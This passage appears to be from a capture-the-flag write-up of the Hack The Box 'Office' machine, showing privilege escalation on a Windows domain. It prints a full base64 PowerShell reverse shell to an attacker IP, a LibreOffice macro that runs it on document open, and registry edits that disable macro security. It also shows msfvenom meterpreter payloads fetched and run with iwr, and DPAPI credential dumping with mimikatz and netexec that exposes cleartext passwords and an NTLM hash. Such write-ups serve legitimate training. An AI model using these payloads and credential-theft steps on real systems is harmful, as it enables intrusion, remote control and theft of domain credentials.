

### AccessChk

We verified that using `AccessChk`

- [https://learn.microsoft.com/de-de/sysinternals/downloads/accesschk](https://learn.microsoft.com/de-de/sysinternals/downloads/accesschk)

```c
PS C:\Users\tstark\Downloads> .\accesschk64.exe -accepteula "tstark" -kvuqsw hklm\Software\
```

## Privilege Escalation to ppotts (Intended)

In the `Program Files` folder we found an installation of `Libre Office 5`. So we probably needed to enable the `execution` of `macros` through editing the `Registry`.

- [https://admx.help/?Category=LibreOffice-from-Collabora&Policy=Collabora.Policies.LibreOffice::MacroSecurityLevel](https://admx.help/?Category=LibreOffice-from-Collabora&Policy=Collabora.Policies.LibreOffice::MacroSecurityLevel)

After that we figured out that there was a a directory which content got checked every few minutes. The `scheduled task` in the background opened each document we dropped there.

We discovered it by forwarding port `8083/TCP` within `sliver` and then accessed the portal.

```c
sliver (lock-http) > portfwd add -b 127.0.0.1:8083 -r 127.0.0.1:8083

[*] Port forwarding 127.0.0.1:8083 -> 127.0.0.1:8083
```

- [http://127.0.0.1:8083](http://127.0.0.1:8083)




```c
PS C:\xampp\htdocs\internal> dir
dir

    Directory: C:\xampp\htdocs\internal

Mode                 LastWriteTime         Length Name                           
----                 -------------         ------ ----                           
d-----         2/14/2024   5:35 PM                applications                   
d-----          5/1/2023   4:27 PM                css                            
d-----          5/1/2023   4:27 PM                img                            
-a----         1/30/2024   8:38 AM           5113 index.html                     
-a----         1/30/2024   8:40 AM           5282 resume.php
```

As logical next step we created a `malicious macro` in a `.odt` document, created with `LibreOffice`.

- [https://books.libreoffice.org/en/GS75/GS7511-GettingStartedWithMacros.html](https://books.libreoffice.org/en/GS75/GS7511-GettingStartedWithMacros.html)
- [https://jamesonhacking.blogspot.com/2022/03/using-malicious-libreoffice-calc-macros.html](https://jamesonhacking.blogspot.com/2022/03/using-malicious-libreoffice-calc-macros.html)

#### Payload

```c
powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA2AC4AMgA2ACIALAA2ADYANgA5ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==
```

```c
Sub Main

    Shell("cmd.exe /c powershell -e JAjA<--- CUT FOR BREVITY --->AA==")
    
End Sub
```

Additionally we had to `assign` the `macro` to an `event`.

*Tools > Customize > Events > Open Document*

We saved the file as `priv.odt` and uploaded it to `C:\xampp\htdocs\internal\applications\`.

I spawned another shell as the `web_account` user. Since he only could write to the desired directory.

```c
┌──(kali㉿kali)-[~]
└─$ msfconsole
Metasploit tip: Save the current environment with the save command, 
future console restarts will use this environment again
                                                  
Call trans opt: received. 2-19-98 13:24:18 REC:Loc

     Trace program: running

           wake up, Neo...
        the matrix has you
      follow the white rabbit.

          knock, knock, Neo.

                        (`.         ,-,
                        ` `.    ,;' /
                         `.  ,'/ .'
                          `. X /.'
                .-;--''--.._` ` (
              .'            /   `
             ,           ` '   Q '
             ,         ,   `._    \
          ,.|         '     `-.;_'
          :  . `  ;    `  ` --,.._;
           ' `    ,   )   .'
              `._ ,  '   /_
                 ; ,''-,;' ``-
                  ``-..__``--`

                             https://metasploit.com


       =[ metasploit v6.3.55-dev                          ]
+ -- --=[ 2397 exploits - 1235 auxiliary - 422 post       ]
+ -- --=[ 1388 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > set LPORT 9999
LPORT => 9999
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.26:9999
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Office/serve]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.26 LPORT=9999 -f exe -o payload.exe 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: payload.exe
```

```c
PS C:\Users\tstark\Downloads> iwr 10.10.16.26:8000/payload.exe -o payload.exe
iwr 10.10.16.26:8000/payload.exe -o payload.exe
```

```c
PS C:\Users\tstark\Downloads> .\payload.exe
.\payload.exe
```

```c
[*] Sending stage (201798 bytes) to 10.129.241.7
[*] Meterpreter session 1 opened (10.10.16.26:9999 -> 10.129.241.7:52591) at 2024-02-17 17:29:32 -0500

meterpreter >
```

Next we set the `registry value` to `0`.

```c
PS C:\Users\tstark\Downloads> Set-ItemProperty -Path "HKLM:\Software\Policies\LibreOffice\org.openoffice.Office.Common\Security\Scripting\MacroSecurityLevel" -Name "Value" -Value 0
Set-ItemProperty -Path "HKLM:\Software\Policies\LibreOffice\org.openoffice.Office.Common\Security\Scripting\MacroSecurityLevel" -Name "Value" -Value 0
```

And then we placed our `malicious .odt` file.

```c
PS C:\xampp\htdocs\internal\applications> iwr 10.10.16.26:8000/priv.odt -o priv.odt
iwr 10.10.16.26:8000/priv.odt -o priv.odt
```

To ensure that the cleanup job didn't reset our registry values, we spammed the command from the `tstark` shell.

```c
PS C:\Users\tstark\Downloads> Set-ItemProperty -Path "HKLM:\Software\Policies\LibreOffice\org.openoffice.Office.Common\Security\Scripting\MacroSecurityLevel" -Name "Value" -Value 0
Set-ItemProperty -Path "HKLM:\Software\Policies\LibreOffice\org.openoffice.Office.Common\Security\Scripting\MacroSecurityLevel" -Name "Value" -Value 0
PS C:\Users\tstark\Downloads> Set-ItemProperty -Path "HKLM:\Software\Policies\LibreOffice\org.openoffice.Office.Common\Security\Scripting\MacroSecurityLevel" -Name "Value" -Value 0
Set-ItemProperty -Path "HKLM:\Software\Policies\LibreOffice\org.openoffice.Office.Common\Security\Scripting\MacroSecurityLevel" -Name "Value" -Value 0
PS C:\Users\tstark\Downloads> Set-ItemProperty -Path "HKLM:\Software\Policies\LibreOffice\org.openoffice.Office.Common\Security\Scripting\MacroSecurityLevel" -Name "Value" -Value 0
Set-ItemProperty -Path "HKLM:\Software\Policies\LibreOffice\org.openoffice.Office.Common\Security\Scripting\MacroSecurityLevel" -Name "Value" -Value 0
PS C:\Users\tstark\Downloads> Set-ItemProperty -Path "HKLM:\Software\Policies\LibreOffice\org.openoffice.Office.Common\Security\Scripting\MacroSecurityLevel" -Name "Value" -Value 0
Set-ItemProperty -Path "HKLM:\Software\Policies\LibreOffice\org.openoffice.Office.Common\Security\Scripting\MacroSecurityLevel" -Name "Value" -Value 0
PS C:\Users\tstark\Downloads> Set-ItemProperty -Path "HKLM:\Software\Policies\LibreOffice\org.openoffice.Office.Common\Security\Scripting\MacroSecurityLevel" -Name "Value" -Value 0
Set-ItemProperty -Path "HKLM:\Software\Policies\LibreOffice\org.openoffice.Office.Common\Security\Scripting\MacroSecurityLevel" -Name "Value" -Value 0
PS C:\Users\tstark\Downloads> Set-ItemProperty -Path "HKLM:\Software\Policies\LibreOffice\org.openoffice.Office.Common\Security\Scripting\MacroSecurityLevel" -Name "Value" -Value 0
Set-ItemProperty -Path "HKLM:\Software\Policies\LibreOffice\org.openoffice.Office.Common\Security\Scripting\MacroSecurityLevel" -Name "Value" -Value 0
PS C:\Users\tstark\Downloads> Set-ItemProperty -Path "HKLM:\Software\Policies\LibreOffice\org.openoffice.Office.Common\Security\Scripting\MacroSecurityLevel" -Name "Value" -Value 0
Set-ItemProperty -Path "HKLM:\Software\Policies\LibreOffice\org.openoffice.Office.Common\Security\Scripting\MacroSecurityLevel" -Name "Value" -Value 0
PS C:\Users\tstark\Downloads> Set-ItemProperty -Path "HKLM:\Software\Policies\LibreOffice\org.openoffice.Office.Common\Security\Scripting\MacroSecurityLevel" -Name "Value" -Value 0
Set-ItemProperty -Path "HKLM:\Software\Policies\LibreOffice\org.openoffice.Office.Common\Security\Scripting\MacroSecurityLevel" -Name "Value" -Value 0
PS C:\Users\tstark\Downloads> Set-ItemProperty -Path "HKLM:\Software\Policies\LibreOffice\org.openoffice.Office.Common\Security\Scripting\MacroSecurityLevel" -Name "Value" -Value 0
Set-ItemProperty -Path "HKLM:\Software\Policies\LibreOffice\org.openoffice.Office.Common\Security\Scripting\MacroSecurityLevel" -Name "Value" -Value 0
PS C:\Users\tstark\Downloads> Set-ItemProperty -Path "HKLM:\Software\Policies\LibreOffice\org.openoffice.Office.Common\Security\Scripting\MacroSecurityLevel" -Name "Value" -Value 0
Set-ItemProperty -Path "HKLM:\Software\Policies\LibreOffice\org.openoffice.Office.Common\Security\Scripting\MacroSecurityLevel" -Name "Value" -Value 0
PS C:\Users\tstark\Downloads> Set-ItemProperty -Path "HKLM:\Software\Policies\LibreOffice\org.openoffice.Office.Common\Security\Scripting\MacroSecurityLevel" -Name "Value" -Value 0
Set-ItemProperty -Path "HKLM:\Software\Policies\LibreOffice\org.openoffice.Office.Common\Security\Scripting\MacroSecurityLevel" -Name "Value" -Value 0
PS C:\Users\tstark\Downloads> Set-ItemProperty -Path "HKLM:\Software\Policies\LibreOffice\org.openoffice.Office.Common\Security\Scripting\MacroSecurityLevel" -Name "Value" -Value 0
Set-ItemProperty -Path "HKLM:\Software\Policies\LibreOffice\org.openoffice.Office.Common\Security\Scripting\MacroSecurityLevel" -Name "Value" -Value 0
PS C:\Users\tstark\Downloads> Set-ItemProperty -Path "HKLM:\Software\Policies\LibreOffice\org.openoffice.Office.Common\Security\Scripting\MacroSecurityLevel" -Name "Value" -Value 0
Set-ItemProperty -Path "HKLM:\Software\Policies\LibreOffice\org.openoffice.Office.Common\Security\Scripting\MacroSecurityLevel" -Name "Value" -Value 0
```

After a minute or so, the document got `renamed` and `opened`.

```c
PS C:\xampp\htdocs\internal\applications> dir
dir

    Directory: C:\xampp\htdocs\internal\applications

Mode                 LastWriteTime         Length Name                           
----                 -------------         ------ ----                           
-a----         2/17/2024  10:33 PM           8521 priv_resume.odt
```

```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.16.26] from (UNKNOWN) [10.129.241.7] 63630

PS C:\Program Files\LibreOffice 5\program> whoami
office\ppotts
```

## Privilege Escalation to hhogan

We checked the permissions of `ppots`. We also noticed that `hhogan` was able to edit `Group Policy Objects (GPO).

We needed to find a way to escalate from `ppots` to `hhogan`.

```c
sliver (INTELLECTUAL_POLO) > sharpdpapi triage

[*] sharpdpapi output:

  __                 _   _       _ ___ 
 (_  |_   _. ._ ._  | \ |_) /\  |_) |  
 __) | | (_| |  |_) |_/ |  /--\ |  _|_ 
                |                      
  v1.11.3                               


[*] Action: User DPAPI Credential and Vault Triage

[*] Triaging Credentials for current user


Folder       : C:\Users\PPotts\AppData\Roaming\Microsoft\Credentials\

  CredFile           : 18A1927A997A794B65E9849883AC3F3E

    guidMasterKey    : {191d3f9d-7959-4b4d-a520-a444853c47eb}
    size             : 358
    flags            : 0x20000000 (CRYPTPROTECT_SYSTEM)
    algHash/algCrypt : 32772 (CALG_SHA) / 26115 (CALG_3DES)
    description      : Enterprise Credential Data

    [X] MasterKey GUID not in cache: {191d3f9d-7959-4b4d-a520-a444853c47eb}


  CredFile           : 84F1CAEEBF466550F4967858F9353FB4

    guidMasterKey    : {191d3f9d-7959-4b4d-a520-a444853c47eb}
    size             : 398
    flags            : 0x20000000 (CRYPTPROTECT_SYSTEM)
    algHash/algCrypt : 32772 (CALG_SHA) / 26115 (CALG_3DES)
    description      : Enterprise Credential Data

    [X] MasterKey GUID not in cache: {191d3f9d-7959-4b4d-a520-a444853c47eb}


  CredFile           : E76CCA3670CD9BB98DF79E0A8D176F1E

    guidMasterKey    : {10811601-0fa9-43c2-97e5-9bef8471fc7d}
    size             : 374
    flags            : 0x20000000 (CRYPTPROTECT_SYSTEM)
    algHash/algCrypt : 32772 (CALG_SHA) / 26115 (CALG_3DES)
    description      : Enterprise Credential Data

    [X] MasterKey GUID not in cache: {10811601-0fa9-43c2-97e5-9bef8471fc7d}


[*] Triaging Vaults for the current user


[*] Triaging Vault folder: C:\Users\PPotts\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28

  VaultID            : 4bf4c442-9b8a-41a0-b380-dd4a704ddb28
  Name               : Web Credentials
    guidMasterKey    : {191d3f9d-7959-4b4d-a520-a444853c47eb}
    size             : 240
    flags            : 0x20000000 (CRYPTPROTECT_SYSTEM)
    algHash/algCrypt : 32772 (CALG_SHA) / 26115 (CALG_3DES)
    description      : 
    [X] MasterKey GUID not in cache: {191d3f9d-7959-4b4d-a520-a444853c47eb}


[*] Triaging RDCMan Settings Files for current user

[*] Triaging KeePass ProtectedUserKey.bin files for current user


Folder       : C:\Users\PPotts\AppData\Roaming\Microsoft\Crypto\RSA\S-1-5-21-1199398058-4196589450-691661856-1107


Folder       : C:\Users\PPotts\AppData\Roaming\Microsoft\Crypto\Keys\

    [!] de7cf8a7901d2ad13e5c67c29e5d1662_d79f509b-d960-4892-a30d-55222d7e0514 masterkey needed: {191d3f9d-7959-4b4d-a520-a444853c47eb}


SharpDPAPI completed in 00:00:00.0988372
```

With the dumped `DPAPI` output, we went one step further to `hhogan`. We knew that we had to decrypt his password because we already rooted the box in a unintended way and got his hashes and password.

```c
┌──(kali㉿kali)-[~]
└─$ netexec smb office.htb -u 'Administrator' -H 'f5b4f1e96c7ffca801ed5832e5e9105d' --dpapi
SMB         10.129.241.7    445    DC               [*] Windows 10.0 Build 20348 (name:DC) (domain:office.htb) (signing:True) (SMBv1:False)
SMB         10.129.241.7    445    DC               [+] office.htb\Administrator:f5b4f1e96c7ffca801ed5832e5e9105d (Pwn3d!)
SMB         10.129.241.7    445    DC               [+] User is Domain Administrator, exporting domain backupkey...
SMB         10.129.241.7    445    DC               [*] Collecting User and Machine masterkeys, grab a coffee and be patient...
SMB         10.129.241.7    445    DC               [+] Got 12 decrypted masterkeys. Looting secrets...
SMB         10.129.241.7    445    DC               [PPotts][CREDENTIAL] Domain:interactive=OFFICE\HHogan - OFFICE\HHogan:H4ppyFtW183#
SMB         10.129.241.7    445    DC               [SYSTEM][CREDENTIAL] Domain:batch=TaskScheduler:Task:{D420B63B-A82C-47BF-B305-7E499C35DE3E} - OFFICE\Administrator:AdMiNU5er678()!
SMB         10.129.241.7    445    DC               [Administrator][MSEDGE] - :None
SMB         10.129.241.7    445    DC               [Administrator][MSEDGE] - :None
```

## DPAPI Dump

- [https://github.com/gentilkiwi/mimikatz/wiki/howto-~-credential-manager-saved-credentials#rpc](https://github.com/gentilkiwi/mimikatz/wiki/howto-~-credential-manager-saved-credentials#rpc)

```c
PS C:\temp> .\mimikatz.exe
.\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz #
```

```c
mimikatz # dpapi::masterkey /in:"%appdata%\Microsoft\Protect\S-1-5-21-1199398058-4196589450-691661856-1107\191d3f9d-7959-4b4d-a520-a444853c47eb" /rpc
**MASTERKEYS**
  dwVersion          : 00000002 - 2
  szGuid             : {191d3f9d-7959-4b4d-a520-a444853c47eb}
  dwFlags            : 00000000 - 0
  dwMasterKeyLen     : 00000088 - 136
  dwBackupKeyLen     : 00000068 - 104
  dwCredHistLen      : 00000000 - 0
  dwDomainKeyLen     : 00000174 - 372
[masterkey]
  **MASTERKEY**
    dwVersion        : 00000002 - 2
    salt             : c521daa0857ee4fa6e4246266081e94c
    rounds           : 00004650 - 18000
    algHash          : 00008009 - 32777 (CALG_HMAC)
    algCrypt         : 00006603 - 26115 (CALG_3DES)
    pbKey            : 1107e1ab3e107528a73a2dafc0a2db28de1ea0a07e92cff03a935635013435d75e41797f612903d6eea41a8fc4f7ebe8d2fbecb0c74cdebb1e7df3c692682a066faa3edf107792d116584625cc97f0094384a5be811e9d5ce84e5f032704330609171c973008d84f

[backupkey]
  **MASTERKEY**
    dwVersion        : 00000002 - 2
    salt             : a2741b13d7261697be4241ebbe05098a
    rounds           : 00004650 - 18000
    algHash          : 00008009 - 32777 (CALG_HMAC)
    algCrypt         : 00006603 - 26115 (CALG_3DES)
    pbKey            : 21bf24763fbb1400010c08fccc5423fe7da8190c61d3006f2d5efd5ea586f463116805692bae637b2ab548828b3afb9313edc715edd11dc21143f4ce91f4f67afe987005320d3209

[domainkey]
  **DOMAINKEY**
    dwVersion        : 00000002 - 2
    dwSecretLen      : 00000100 - 256
    dwAccesscheckLen : 00000058 - 88
    guidMasterKey    : {e523832a-e126-4d6e-ac04-ed10da72b32f}
    pbSecret         : 159613bdc2d90dd4834a37e29873ce04c74722a706d0ba4770865039b3520ff46cf9c9281542665df2e72db48f67e16e2014e07b88f8b2f7d376a8b9d47041768d650c20661aee31dc340aead98b7600662d2dc320b4f89cf7384c2a47809c024adf0694048c38d6e1e3e10e8bd7baa7a6f1214cd3a029f8372225b2df9754c19e2ae4bc5ff4b85755b4c2dfc89add9f73c54ac45a221e5a72d3efe491aa6da8fb0104a983be20af3280ae68783e8648df413d082fa7d25506e9e6de1aadbf9cf93ec8dfc5fab4bfe1dd1492dbb679b1fa25c3f15fb8500c6021f518c74e42cd4b5d5d6e1057f912db5479ebda56892f346b4e9bf6404906c7cd65a54eea2842
    pbAccesscheck    : 1430b9a3c4ab2e9d5f61dd6c62aab8e1742338623f08461fe991cccd5b3e4621d4c8e322650460181967c409c20efcf02e8936c007f7a506566d66ba57448aa8c3524f0b9cf881afcbb80c9d8c341026f3d45382f63f8665


Auto SID from path seems to be: S-1-5-21-1199398058-4196589450-691661856-1107

[backupkey] without DPAPI_SYSTEM: 
  key : 4d1b2c18baba7442e79d33cc771bf54027ae2500e08da3ecfccf91303bd471b6
  sha1: eeb787c4259e3c8b8408201ee5e54fc29fad22b2

[domainkey] with RPC
[DC] 'office.htb' will be the domain
[DC] 'DC.office.htb' will be the DC server
  key : 87eedae4c65e0db47fcbc3e7e337c4cce621157863702adc224caf2eedcfbdbaadde99ec95413e18b0965dcac70344ed9848cd04f3b9491c336c4bde4d1d8166
  sha1: 85285eb368befb1670633b05ce58ca4d75c73c77
```

```c
mimikatz # dpapi::cache

CREDENTIALS cache
=================

MASTERKEYS cache
================
GUID:{191d3f9d-7959-4b4d-a520-a444853c47eb};KeyHash:85285eb368befb1670633b05ce58ca4d75c73c77;Key:available

DOMAINKEYS cache
================
```

```c
mimikatz # dpapi::cache

CREDENTIALS cache
=================

MASTERKEYS cache
================
GUID:{191d3f9d-7959-4b4d-a520-a444853c47eb};KeyHash:85285eb368befb1670633b05ce58ca4d75c73c77;Key:available

DOMAINKEYS cache
================

mimikatz # dpapi::cred /in:"C:\Users\PPotts\AppData\Roaming\Microsoft\Credentials\84F1CAEEBF466550F4967858F9353FB4"
**BLOB**
  dwVersion          : 00000001 - 1
  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
  dwMasterKeyVersion : 00000001 - 1
  guidMasterKey      : {191d3f9d-7959-4b4d-a520-a444853c47eb}
  dwFlags            : 20000000 - 536870912 (system ; )
  dwDescriptionLen   : 0000003a - 58
  szDescription      : Enterprise Credential Data

  algCrypt           : 00006603 - 26115 (CALG_3DES)
  dwAlgCryptLen      : 000000c0 - 192
  dwSaltLen          : 00000010 - 16
  pbSalt             : 649c4466d5d647dd2c595f4e43fb7e1d
  dwHmacKeyLen       : 00000000 - 0
  pbHmackKey         : 
  algHash            : 00008004 - 32772 (CALG_SHA1)
  dwAlgHashLen       : 000000a0 - 160
  dwHmac2KeyLen      : 00000010 - 16
  pbHmack2Key        : 32e88dfd1927fdef0ede5abf2c024e3a
  dwDataLen          : 000000c0 - 192
  pbData             : f73b168ecbad599e5ca202cf9ff719ace31cc92423a28aff5838d7063de5cccd4ca86bfb2950391284b26a34b0eff2dbc9799bdd726df9fad9cb284bacd7f1ccbba0fe140ac16264896a810e80cac3b68f82c80347c4deaf682c2f4d3be1de025f0a68988fa9d633de943f7b809f35a141149ac748bb415990fb6ea95ef49bd561eb39358d1092aef3bbcc7d5f5f20bab8d3e395350c711d39dbe7c29d49a5328975aa6fd5267b39cf22ed1f9b933e2b8145d66a5a370dcf76de2acdf549fc97
  dwSignLen          : 00000014 - 20
  pbSign             : 21bfb22ca38e0a802e38065458cecef00b450976

Decrypting Credential:
 * volatile cache: GUID:{191d3f9d-7959-4b4d-a520-a444853c47eb};KeyHash:85285eb368befb1670633b05ce58ca4d75c73c77;Key:available
**CREDENTIAL**
  credFlags      : 00000030 - 48
  credSize       : 000000be - 190
  credUnk0       : 00000000 - 0

  Type           : 00000002 - 2 - domain_password
  Flags          : 00000000 - 0
  LastWritten    : 5/9/2023 11:03:21 PM
  unkFlagsOrSize : 00000018 - 24
  Persist        : 00000003 - 3 - enterprise
  AttributeCount : 00000000 - 0
  unk0           : 00000000 - 0
  unk1           : 00000000 - 0
  TargetName     : Domain:interactive=OFFICE\HHogan
  UnkData        : (null)
  Comment        : (null)
  TargetAlias    : (null)
  UserName       : OFFICE\HHogan
  CredentialBlob : H4ppyFtW183#
  Attributes     : 0
```

| Username | Password |
| --- | --- |
| hhogan | H4ppyFtW183# |

## Privilege Escalation to administrator (Intended)

```c
┌──(kali㉿kali)-[~/Downloads]
└─$ evil-winrm -i office.htb -u hhogan -p 'H4ppyFtW183#'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\HHogan\Documents>
```

```c
*Evil-WinRM* PS C:\Users\HHogan\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

```c
*Evil-WinRM* PS C:\Users\HHogan\Documents> Get-GPO -All


DisplayName      : Windows Firewall GPO
DomainName       : office.htb
Owner            : OFFICE\Domain Admins
Id               : 04fe5c75-0078-4d44-97c5-8a796be906ec
GpoStatus        : AllSettingsEnabled
Description      :
CreationTime     : 5/10/2023 9:47:27 AM
ModificationTime : 5/10/2023 8:47:26 AM
UserVersion      : AD Version: 0, SysVol Version: 0
ComputerVersion  : AD Version: 0, SysVol Version: 0
WmiFilter        :

DisplayName      : Default Domain Policy
DomainName       : office.htb
Owner            : OFFICE\Domain Admins
Id               : 31b2f340-016d-11d2-945f-00c04fb984f9
GpoStatus        : AllSettingsEnabled
Description      :
CreationTime     : 4/14/2023 3:13:57 PM
ModificationTime : 5/10/2023 9:30:06 AM
UserVersion      : AD Version: 0, SysVol Version: 0
ComputerVersion  : AD Version: 18, SysVol Version: 18
WmiFilter        :

DisplayName      : Default Active Directory Settings GPO
DomainName       : office.htb
Owner            : OFFICE\Domain Admins
Id               : 37238285-35d0-4d0c-a702-b489c38ed505
GpoStatus        : AllSettingsEnabled
Description      :
CreationTime     : 5/10/2023 9:45:44 AM
ModificationTime : 5/10/2023 8:45:44 AM
UserVersion      : AD Version: 0, SysVol Version: 0
ComputerVersion  : AD Version: 0, SysVol Version: 0
WmiFilter        :

DisplayName      : Default Domain Controllers Policy
DomainName       : office.htb
Owner            : OFFICE\Domain Admins
Id               : 6ac1786c-016f-11d2-945f-00c04fb984f9
GpoStatus        : AllSettingsEnabled
Description      :
CreationTime     : 4/14/2023 3:13:57 PM
ModificationTime : 1/25/2024 2:40:02 PM
UserVersion      : AD Version: 0, SysVol Version: 0
ComputerVersion  : AD Version: 12, SysVol Version: 12
WmiFilter        :

DisplayName      : Windows Update GPO
DomainName       : office.htb
Owner            : OFFICE\Domain Admins
Id               : 7b6165c4-c41d-47ed-9a37-e1a058f230c1
GpoStatus        : AllSettingsEnabled
Description      :
CreationTime     : 5/10/2023 9:47:13 AM
ModificationTime : 5/10/2023 8:47:14 AM
UserVersion      : AD Version: 0, SysVol Version: 0
ComputerVersion  : AD Version: 0, SysVol Version: 0
WmiFilter        :

DisplayName      : Windows Update Domain Policy
DomainName       : office.htb
Owner            : OFFICE\Domain Admins
Id               : 86e68a9a-f5e9-49b9-a1e3-9ccdaa9251b4
GpoStatus        : AllSettingsEnabled
Description      :
CreationTime     : 5/10/2023 9:58:24 AM
ModificationTime : 5/10/2023 9:28:36 AM
UserVersion      : AD Version: 0, SysVol Version: 0
